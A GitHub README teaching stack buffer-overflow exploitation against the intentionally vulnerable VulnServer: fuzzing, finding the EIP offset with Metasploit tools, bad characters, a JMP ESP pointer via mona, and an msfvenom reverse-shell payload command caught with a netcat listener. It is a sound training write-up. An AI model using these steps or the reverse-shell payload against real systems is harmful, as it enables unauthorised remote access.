









# Buffer-Overflow

[](https://img.shields.io/badge/Ruby-CC342D?style=for-the-badge&logo=ruby&logoColor=white)

These are the scripts &amp; methodologies that can be used in Buffer Over Flow Fuzzing and Exploitation

## Buffer Overflow - Everything You Should Know about BOF
A buffer overflow vulnerability occurs when you give a program <u>too much data.</u> The excess data corrupts nearby space in memory and may alter other data. As a result, the program might report an error or behave differently. Such vulnerabilities are also called buffer overrun.

## Types of Buffer Overflow Attacks
- <b>Stack-based</b> buffer overflows are more common, and leverage stack memory that only exists during the execution time of a function.

- <b>Heap-based </b> attacks are harder to carry out and involve flooding the memory space allocated for a program beyond memory used for current runtime operations.

## Steps:
1. Crash The Application
2. Find EIP
3. Control ESP
4. Identify Bad Characters
5. Find JMP ESP
6. Generate Shell Code
7. Exploit

<hr>

## 1. Anatomy of Memory
Starting with the basics of memory, and its conumption inside a computer. 
- A **buffer** is a temporary area for data storage. When more data (than was originally allocated to be stored) gets placed by a program or system process, the extra data overflows. It causes some of that data to leak out into other buffers, which can corrupt or overwrite whatever data they were holding.
- In a **buffer-overflow attack,** the extra data sometimes holds specific instructions for actions intended by a hacker or malicious user; for example, the data could trigger a response that damages files, changes data or unveils private information

- The **kernel** is at the top and the **text** is at the bottom. In between lies the Stack and Heap which is actually the area to be focused.

- It has **ESP** at its top and **EBP** at it bottom. The <u>stack gets filled from TOP to BOTTOM</u>. This is how we will be filling the bufffer. As an example show here, we have filled the bufferspace with 'A' and that too got overflowed till the EIP, which results in the data corruption or data being get overwritten.
<hr>

## 2. Steps to Conduct Buffer Overflow Attack
A Buffer Overflow attack is Checked and Exploited in the following steps : 
1.  Fuzzing    
2.  Finding the Offset     
3.  Overwriting the EIP    
4.  Finding bad characters    
5.  Finding the right module    
6.  Generating Shellcodes    
7.  Get Root Access!

###### Note: This Demonstration was carried out on a Vulnerable Server - [Grey Corner VulnServer](http://thegreycorner.com/2010/12/15/introducing-vulnserver.html) using [Immunity Debugger](https://www.immunityinc.com/products/debugger/) on Windows 10.
### Important Registers
-   **EIP**: EIP is the Extended Instruction Pointer it is a read-only register and it contains the address of the next instruction to read on the program, point always to the “Program Code” memory segment.
    
-   **ESP**:  ESP is the Extended Stack Pointer and this register purpose is to let you know where on the stack you are, it means that the ESP always marks the top of the stack.
    
-   **EBP**: EBP is the Extended Base Stack Pointer and its purpose is to point to the base address of the stack.

### 2(1) Fuzzing
1. The First step is sending a lot of Junk Data to the server, until it gets crashed. We can use the [Fuzzer.py](https://github.com/IamLucif3r/Buffer-Overflow/blob/main/Fuzzer.py) after making required changes according to the input sent to server. 
2. The Script will send the Chunk of data in increasing order (100 bytes for first run, 200 in second run and so on). There will be a time, when the server/application will get crashed. 

### 2(2) Finding the Offset
- From here we will start to find out where to overwrite the EIP so that we can gain the root access.   
	-    now we need to create a pattern with same number of bytes, at which our application was crashed. 
-    Say for example if we need to create a pattern after our Application was crashed at 3000 bytes, we will run this script: 
```
/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 3000
```
- Now, we will add this pattern in our [Exploit.py](https://github.com/IamLucif3r/Buffer-Overflow/blob/main/Exploit.py) and run the script after restarting the application. 
 
- Observe the value of EIP in the Immunity Debugger, this is the offset value we will be needed in creating exploitaion. 


- Again we will use the Metasploit framework, where we will enter the value of EIP obtained and if our pattern got matched we will get a value which will be the number of bytes over which we can get the control of the system.

```
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 386F4337 
```


- This is how we  get the value of our Offset.

### 2(3) Overwriting the EIP
- Now that we are aware that after 2003 bytes the data will overflow to the EIP, we will do the same. for that, we will create a python script that will add 2003 bytes of 'A' and next to that we will add 'B' in order to distinguish.
- Again, after runnning the script - we will observe that the EBP will be flodded with the 41414141.... after overflow. This means we have gained control over the EIP. 


### 2(4) Finding the Bad Characters
- We will be checking all the bad characters in our code and check if any one acts up.
-   Also by default the \\x00 (no byte is bad) acts up so we will remove it. Below is the list of bad characters.
-   ```
badchars = ("\\x00\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f"
"\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40"
"\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f"
"\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f"
"\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f"
"\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf"
"\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf"
"\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff")
- Some programs have characters to make something up, e.g. x70 may become command that runs up in the program that tells us to do something & what we actually want it that while running through the shellcode, It doesn't break down. so we will not use x70.
- As we run the Exploit Script we find some change in the **ESP** , right click on it and go to follow in dump. 
	- There we will find the HexDump and locate the missing values ( Let's check your eyes LOL ;p) Also our limits **\\xff** so we will check only till the xff.

NOTE: VulnServer is made to be very easy so we will not found any bad characters here.
-   If any missing character is found in the HexDump we can check them as follows:
-   
-  Now we will find the correct Modules

### 2(5) Finding the Right Module
- By finding the right modules, we meant to find out a .dll or similar files inside a program that doesn't have memory protection.
-   We will use a module named "Mona module" with our debugger (link: [https://github.com/corelan/mona.git](https://github.com/corelan/mona.git) ) and we will paste the mona.py file into : thispc/c:/programs files(x86)/Immunity Inc/Immunity Debugger/PyCommands.
	-    Type into the Debugger Bottom - **!mona modules** & a window will pop-up.    
	-   Now we can see different permission settings, and we are looking for something attached to a vulnerable server  (we'll ensure that all are FALSE)
	-    Now coming back to Terminal, we use Nasm.rb (you can use locate nasm) to convert assembly to hex code.
	-    
	-    Here we are making the pointer to jump to our malicious code. (above used is Assembly Language). It is observed that the HEX equal to assmbly is **FFE4**.
	-    we will find a pointer using command: " **!mona find -s "\\xff\\xe4\\"  -m essfunc.dll** "
	-    
	-    Now from results we will choose a address with everything set to false.
	-    And now we will use the following script, where in place of shellcode where we were sending 4 B's we will now send the pointer that we found in previous step.
	-  We have entered the pointer to our jump so that pointer will jump to shell code.

-   In the Immunity Debugger, go to "expression to follow" and add "625011af" there and hit Enter we will jump to **FFE4 JMP ESP** hit **F2** button to set a break point over there. It means that buffer will overflow if hit that particular spot. It will not move to further program it will get paused and will wait for our instruction.

	-   Now get back to terminal and run the above sccript. You will notice that in debugger EIP has a break point with our code 625011af and program is paused.
	-   

### 2(6) Generating Shellcode
- This is the final step of exploitation, where we will use the Metasploit utility called **Msfvenom** to create a payload. To create a payload type the following command: 
```
msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\\x00"
```
The IP Address should be the IP Address of  your Attacking Machine, where we will get back the TCP Connection. 

- <u>Explanation of the Above Code</u>:
	- **msfvenom** is used here to create a payload we use **\-p** switch to define the type of payload we are going to use, here the payload is **windows/shell\_reverse\_tcp,** it will prompt a reverse shell for us. In order to get a reverse shell we need to define **LHOST & LPORT** which is the ip address of attacking machine and port open to listen. **EXITFUNC=thread** is used for stability in payload , **\-f c** sets the file type used, here it is c. **\-a x86** defines the architecture type and **\-b** defines the bad characters present, **"\\x00".**
  here is what our payload looks like.
- Add the Payload generated to the Exploit.py script, and restart the application. Then on your attacking machine start the NetCat Listening on the specific port that you gave in the payload creation step and then run the exploit script. 
	- The Overflow will get executed and you'll get the root access to the Victim's Machine. 

<hr>

## Contribution
Fork this repo, do the required changes and send me a PR. I'll merge your request to the main repository. Here is what you can do:
- Add more Fuzzing Scripts, in different programming languages.
- Add more Exploitation Scripts, in different programming languages.
- Improvise the Documentation (because I'm not very good in it).

Show some    by  starring the Repository. 

Create by : [IamLucif3r](https://anmol-singh-yadav.github.io/)
